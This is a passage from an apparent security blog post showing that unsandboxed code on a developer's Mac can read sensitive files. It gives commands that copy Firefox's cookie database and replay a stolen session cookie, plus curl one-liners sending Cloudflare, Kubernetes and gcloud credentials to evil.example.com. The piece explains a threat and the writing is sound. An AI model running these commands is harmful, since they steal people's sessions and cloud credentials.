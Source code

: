 ## Step 3: Pivoting to prod

The world is now our oyster. Without some kind of sandboxing in place, we can access the vast majority of important files on the file system, including SSH keys, `~/.kube/config`, cloud credentials, and browser cookies. It just depends on what we decide to put into that `f.write()` call.

Here's an example of stealing a cookie:

```
$ cd ~/Library/Application\ Support/Firefox/Profiles/
# There may be multiple profiles, just pick the first one
$ cd $(ls | head -n 1)

# Database will probably be locked if the browser is open, so just copy it
$ cp cookies.sqlite unlocked-cookies.sqlite
$ sqlite3 cookies.sqlite
sqlite> SELECT name,value FROM moz_cookies WHERE host="news.ycombinator.com";
user|mac-chaffee&PCeezf4hhaH5S7BRsTtX/hVUQ3SQb9IpFU

# Now to peek at an auth-protected page using that cookie:
curl -i -SsLH 'Cookie: user=mac-chaffee&PCeezf4hhaH5S7BRsTtX/hVUQ3SQb9IpFU' 'https://news.ycombinator.com/upvoted?id=mac-chaffee'
```

I was surprised to see FireFox does nothing to protect cookies on disk, even if you sign into FireFox Sync. At least Chrome encrypts them using macOS Keychain, but [you can bypass that too](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password). Surely Safari is properly using macOS security features to protect cookies, right? Wrong. You can apparently [modify Safari with malicious code without invalidating its code signature](https://lapcatsoftware.com/articles/disclosure2.html). It's telling that [MITRE's page on cookie theft](https://attack.mitre.org/techniques/T1539/) has no real solution to this problem either.

Here's an example of stealing my cloudflare credentials:

```
curl --data-binary=@~/Library/Preferences/.wrangler/config/default.toml http://evil.example.com
```

Or my Kubernetes credentials:

```
curl --data-binary=@~/.kube/config http://evil.example.com
```

Or my gcloud credentials:

```
curl --data-binary=@~/.config/gcloud/credentials.db http://evil.example.com
```

Not even 2FA will save me here. Even if some of those sites are VPN-protected or they tie the credentials to a specific source IP, that's not an issue for an attacker. They can just execute the API calls directly from my computer through the VPN.

### Aside: My outbound firewall (LittleSnitch et. al.) will catch you!
